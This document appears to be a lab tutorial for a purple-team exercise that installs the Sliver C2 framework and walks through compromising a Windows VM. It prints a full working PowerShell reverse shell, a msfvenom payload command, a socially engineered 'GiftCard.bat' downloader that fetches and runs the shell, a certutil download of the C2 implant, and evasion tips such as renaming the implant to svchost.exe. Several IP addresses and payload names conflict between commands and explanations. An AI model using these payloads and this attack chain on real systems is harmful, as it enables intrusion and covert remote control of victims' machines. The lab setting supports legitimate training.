

# Sliver C2 Framework

**Implants: Beacon vs. Session**

Sliver is generally designed as a stage 2 payload, and as such the creators have not minimized the implant's file size. Depending on how many protocols are enabled in the implant the file can get large, the creators strongly advise the use of [**stagers**](https://sliver.sh/docs?name=Stagers) for actual operations (at least in contexts where one may be concerned about file size). This is the tradeoff for getting easy static compilation in Golang.

Sliver implants support two modes of operation: "beacon mode" and "session mode." 

**Beacon mode** implements an asynchronous communication style where the implant periodically checks in with the server retrieves tasks, executes them, and returns the results. 

In **Session mode** the implant will create an interactive real time session using either a persistent connection or using long polling depending on the underlying C2 protocol.

Beacons may be tasked to open interactive sessions over *any C2 protocol they were compiled with* using the **`interactive`** command, i.e., if a beacon implant was not compiled with HTTP C2 it cannot open a session over HTTP (use the **`close`** command to close the session). Implants initially compiled for session mode cannot be converted to beacon mode.

## Installing Sliver

Since 99% of the framework is in Golang, you can really run this on any operating system that supports it. We will be using our standard lab setup and install Sliver on Kali Purple. As implied earlier, C2 is an example of client-server architecture, meaning we have a central server to handle our requests, and multiple clients interacting with that server. To install Sliver download it with the command below. 

```powershell
curl [https://sliver.sh/install|sudo](https://sliver.sh/install%7Csudo) bash
```

This command is using **`curl`** to download the script located at **`https://sliver.sh/install`** and then piping the output to **`sudo bash`**.

Breaking it down:

1. **`curl`**: This is a command-line tool used to transfer data from or to a server. In this case, it's being used to download the script located at **`https://sliver.sh/install`**.
2. **`https://sliver.sh/install`**: This is the URL from which the script is being downloaded.
3. **`|`**: This is the pipe operator. It takes the output from the command on the left side (**`curl https://sliver.sh/install`**) and passes it as input to the command on the right side (**`sudo bash`**).
4. **`sudo bash`**: This command runs the Bash shell with superuser privileges (via **`sudo`**). It executes whatever script or commands are provided to it via standard input.

Putting it all together, this command downloads a script from **`https://sliver.sh/install`** and then runs it as root using **`sudo bash`**. 


When using Sliver we need to run the server in the background, and use the client to connect to it. If you use the Linux one-liner, this will already be set up for you as a service, so use the `systemctl` command to start and stop it (Similar to the way we started and stopped Elastic and Kibana when we set up previous labs).

Connect to the server using the command “sliver”.

```powershell
sliver
```

<aside>
💡


</aside>

## Generate a Beacon

Generate a beacon payload with the command below.

```powershell
generate beacon --http 10.0.2.5 --save .
```

Here's what each part of the command does:

- **`generate beacon`**: This part of the command instructs the Sliver C2 framework to generate a beacon payload. A beacon is a piece of code or payload that is designed to periodically check in with a C2 server (in this case, an HTTP listener) to receive commands or instructions.
- **`-http 191.168.1.198`**: This option specifies the HTTP listener's IP address (192.168.1.198) that the generated beacon payload will communicate with. This means that the beacon payload will send its data and receive commands via HTTP requests to this IP address.
- **`-save .`**: This option tells Sliver to save the generated payload in the current directory. The **`.`** represents the current directory. This allows you to specify where the generated payload file should be saved on your local system.

It will take several minutes to create the payload. Be patient. When completed, the beacon will have a randomized two word name. 

<aside>
💡


</aside>

## Execute the Initial Compromise

As previously mentioned, beacons are a post compromise payload. In order to deploy the beacon today we will execute the attack from Purple Team Exercise 1 to get a reverse shell.

1) On Kali Purple, create a reverse shell using msfvenom using the command below. *Use the IP address of **your** Kali Purple VM.

```powershell
msfvenom -p cmd/windows/reverse_powershell lhost=10.0.2.5 lport=1337 > shell.txt
```

This command uses the **`msfvenom`** tool from the Metasploit framework to generate a Windows shellcode that creates a reverse PowerShell shell. Let's break down the command:

- **`p cmd/windows/reverse_powershell`**: Specifies the payload to use, which in this case is a reverse PowerShell shell for Windows.
- **`lhost=192.168.1.198`**: Specifies the IP address of the attacker's machine (the listening host) to which the reverse shell will connect back.
- **`lport=1337`**: Specifies the port on the attacker's machine to which the reverse shell will connect.
- **`> shell.txt`**: Redirects the output of the command (the generated shellcode) to a file named **`shell.txt`**.

As seen above, this command generates a PowerShell command that, when executed on a target Windows machine, will establish a reverse shell back to the attacker's machine on IP address 192.168.1.198, port 1337.


**reverse shell script shown below**

```powershell
powershell -w hidden -nop -c $a='192.168.1.151';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) { start-sleep -m 100; if ($osread.IsCompleted -and $osread.Result -ne 0) { $r=$os.BaseStream.EndRead($osread); $s.Write($ob,0,$r); $s.Flush(); $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null); } if ($esread.IsCompleted -and $esread.Result -ne 0) { $r=$es.BaseStream.EndRead($esread); $s.Write($eb,0,$r); $s.Flush(); $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null); } if ($s.DataAvailable) { $r=$s.Read($nb,0,$nb.Length); if ($r -lt 1) { break; } else { $str=$e.GetString($nb,0,$r); $is.write($str); } } if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) { break; } if ($p.ExitCode -ne $null) { break; }}
```

**Here's a breakdown of the reverse shell script:**

1. **Setting up variables:**
    - **`$a`**: IP address to connect to (**`192.168.1.198`**).
    - **`$b`**: Port number to connect to (**`1337`**).
    - **`$c`**: TCP client object.
    - **`$nb`**: Byte array for receiving data from the network stream.
    - **`$ob`**: Byte array for storing output from the local process.
    - **`$eb`**: Byte array for storing error output from the local process.
    - **`$e`**: UTF-8 encoding object.
    - **`$p`**: Process object for **`cmd.exe`**.
2. **Connecting to the remote host:**
    - Establishes a TCP connection to the specified IP address and port.
3. **Setting up input/output streams for `cmd.exe`:**
    - Redirects the standard input, output, and error streams of the **`cmd.exe`** process.
4. **Starting the `cmd.exe` process:**
    - Starts the **`cmd.exe`** process with the configured settings.
5. **Reading and Writing Loop:**
    - Enters into an infinite loop that continually checks for data to read or write.
    - If there is data available from the local process's standard output or error streams, it is sent to the remote host.
    - If there is data available from the remote host, it is written to the standard input of the local process (**`cmd.exe`**).
    - The loop also checks for the termination conditions:
        - If the connection is closed (**`$c.Connected -ne $true`**).
        - If there is no data to read from the local process's standard output or error streams.
        - If the local process (**`cmd.exe`**) exits.

In summary, this script is a simple reverse shell that connects to a specified IP address and port, establishes a command prompt (**`cmd.exe`**), and allows for remote command execution. 

2) Stand up a python webserver on your Kali Purple VM using the command below.

```powershell
python3 -m http.server
```

3) In a different terminal on your Kali Purple VM, install netcat using the command below. (If not already installed.)

```powershell
sudo apt install netcat-traditional
```

4) Set up a netcat listener on port 1337 using the command below.

```powershell
nc -lvp 1337
```

### Windows Victim Setup

Create the following bat file by copying and pasting the code below into a notepad++/ notepad file on your Windows VM and saving the file as “GiftCard.bat”.

```powershell
@ECHO off
powershell -Command "Invoke-WebRequest -URI [http://192.168.1.198:8000/shell.](http://192.168.8.151:8000/shell.bat)txt -OutFile c:\Windows\Temp\shell.bat; c:\Windows\Temp\shell.bat"
```

## Attack Execution

1) Double-click GiftCard.bat on the victim. 


2) The webserver delivers the reverse shell, as seen in the screenshot below.


3) The netcat listener receives the shell, as seen in the screenshot below.


4) We will use the reverse shell to deploy and execute our C2 beacon/payload.

## Start the Sliver listener

In Sliver (on Kali Purple) start the listener by typing “http”.

```powershell
http
```

<aside>
💡


</aside>

## **Deploy the payload to the victim**

Ensure the web server is still active on Kali Purple. If not, restart it.

```powershell
python3 -m http.server 8000
```

Go to the reverse shell and type the following command to move our C2 beacon to the compromised machine. (Substitute the name of your payload.)

```powershell
certutil -urlcache -f http://10.0.2.5:8000/FRONT_BOTANY.exe FRONT_BOTANY.exe

```

The command is using **`certutil`** to download a file from the Sliver server and cache it locally. Here's a breakdown of the command:

1. **`certutil`**: This is the command-line utility used for various operations related to certificates and certificate services on Windows systems.
2. **`urlcache`**: This option specifies that **`certutil`** should download content from a URL and cache it locally.
3. **`f`**: This option forces the download even if the URL's content is already cached.
4. **`https://192.168.1.198:8000/WARM_LUMBERMAN.exe`**: This is the URL from which the file **`WARM_LUMBERMAN.exe`** will be downloaded. It's accessed via HTTP and is hosted on the IP address 192.168.1.198, using port 8000.
5. **`WARM_LUMBERMAN.exe`**: This is the name of the file that will be saved locally. The file downloaded from the specified URL will be saved with this name.

In summary, the command is downloading the file **`WARM_LUMBERMAN.exe`** from the specified URL (**`http://192.168.1.198:8000/WARM_LUMBERMAN.exe`**) and caching it locally using **`certutil`**. The **`-f`** flag ensures that the file is downloaded even if it's already cached.

<aside>
💡


</aside>

It may take some time for the file to transfer. Be patient. You can confirm the transfer started by viewing your web server terminal.

<aside>
💡


</aside>

Take a snapshot of the Windows VM before executing the malware. Name it something memorable, such as “C2_Staged”.

## **Run the payload on the victim**

Ensure the Sliver server is still running and the listener is still set to http.

<aside>
💡


</aside>

From the reverse shell execute the beacon/payload by typing the name of the payload and hitting enter.

<aside>
💡


</aside>

## Interacting with the payload

Once the payload on the victim has connected to the server you should see something similar to the screenshot below.

<aside>
💡


</aside>

List the current beacons we have using the `beacons` command.

```powershell
beacons
```

<aside>
💡


</aside>

Remember that **beacons** are different from **sessions** in that they will periodically check in about every minute or so by default. From an OPSEC perspective, this is better because it doesn’t look like a reverse shell, which is a continuous connection. The reason we stated that a beacon checks in every minute “*or so”*  is because of **jitter**. AS previously mentioned, jitter is essentially making the check-ins more irregular, making it so that the beacon is not checking in at exactly every 60 seconds, because that would also be suspicious. 

We can interact with our beacon with the `use` command, followed by the ID of the beacon, which we can use the Tab key for auto fill. **You should use the Tab key for auto fill because the entire ID may not be visible.**

<aside>
💡


</aside>

Start interacting with the payload with the basic command, pwd.

```powershell
pwd
```

<aside>
💡


</aside>

You’ll notice we did not get a response immediately. This is because any commands we send are actually **tasks** that are put into a queue, and received every time the beacon checks in. Just wait about a minute, and we see:

<aside>
💡


</aside>

If you ever forget what the result of a task was, for documentation or you just don’t want to execute another command, you can use `tasks` to list the things you’ve done so far, and then `tasks fetch <id>` to fetch the output of a specific task.

<aside>
💡


</aside>

A lot of the commands in a beacon might be familiar if you’ve ever used Meterpreter, so I won’t explain every single possible thing you can do. However, differing from Meterpreter, there are a lot more commands to help simplify some of the things you might need to do as a red teamer.

<aside>
💡


</aside>

The info command provides basic information on the beacon.

<aside>
💡


</aside>

The ps -T command returns a process tree.

<aside>
💡


</aside>

Note that security tools are written in red (see Sysmon above) and the Sliver payload is in green (see WARM_LUMBERMAN above).

The netstat command shows connections.


Note that the C2 connection is in green.

The command “beacons watch” tells you the next time a beacon is scheduled to check in.

```powershell
beacons watch
```

<aside>
💡


</aside>

## Sessions

To be able to use some of the commands that require a session, we can use `interactive` to enter session mode.

```powershell
interactive
```

<aside>
💡


</aside>

Note that the name of the implant is blue when it’s in beacon mode, and red when it’s in session mode. Not only do we now get quicker turnarounds on our tasks, because everything is happening immediately. Note below, there is no task assigned, it immediately responds.

<aside>
💡



</aside>

The big downside is that is the beacon process continuously shows up in Task Manager on the victim machine. Ideally, you rename the executable file to `svchost.exe` or `explorer.exe` or something less suspicious, but the problem still remains.

<aside>
💡


</aside>

Other than that, they’re really not that much different than beacons. From a workflow perspective, you’ll almost always default to beacons, then pull out the session if necessary. After all you can only go from beacon to session, not vice versa.

Speaking of which, we can also kill a session to make sure we clean up our steps.

```powershell
sessions -k
```

<aside>
💡


</aside>